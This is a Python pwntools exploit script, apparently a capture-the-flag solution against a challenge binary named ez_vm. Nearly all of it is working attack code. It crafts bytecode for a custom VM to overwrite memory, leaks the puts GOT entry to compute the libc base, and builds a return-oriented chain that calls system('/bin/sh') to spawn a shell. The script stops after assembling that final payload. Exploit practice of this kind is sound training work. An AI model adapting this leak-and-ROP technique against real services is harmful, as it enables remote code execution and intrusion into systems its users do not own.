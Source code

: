 exploit.py
```python
from pwn import *
#context.log_level="debug"
puts_plt = 0x401070
puts_got = 0x404018
pop_rdi = 0x00000000004011a3
m= 0x00000000004013b4
bss= 0x0000000000404000
ret=0x000000000040101a
#p=process("./ez_vm")
p=remote("0.0.0.0",31337)
e=ELF("./ez_vm")
libc=ELF("libc.so.6")
pause()
p.recvuntil("opcode: ")

def mov(a,b): # reg[a]=b
    s=b"\x01"
    s+= a.to_bytes(1, byteorder='little')
    s+=b"\x00\x00"
    s+= b.to_bytes(4, byteorder='little')
    
    return s
def store(a,b): # memory[a]=reg[b]
    s=b"\x03"
    s+= a.to_bytes(1, byteorder='little')
    s+=b"\x00\x00"
    s+= b.to_bytes(4, byteorder='little')
    return s
def bug(off1,ret_addr):
    
    c=mov(0,bss+off1)
    c+=store(2,0)
    c+=mov(1,ret_addr)
    c+=store(4,1)
    c=c.ljust(0x70,b"\x00")
    return c
payload=mov(1,0)
payload+=store(5,1)
payload+=bug(0x700,m)
payload+=p64(puts_got)
payload+=p64(puts_plt)
payload+=p64(m)
p.send(payload)
sleep(1)

payload=bug(0x650,m)
payload+=p64(puts_got)
payload+=p64(puts_plt)
payload+=p64(m)
p.send(payload)
sleep(1)

payload=bug(0x900,pop_rdi)
p.send(payload)
p.recvline()
leak=p.recvline().rstrip()
libc.address=u64(leak.ljust(8,b"\x00"))-libc.symbols["puts"]
print("libc_base: ",hex(libc.address))
payload=bug(0x850,m)
payload+=p64(next(libc.search(b'/bin/sh')))
payload+=p64(ret)
payload+=p64(libc.symbols["system"])
```
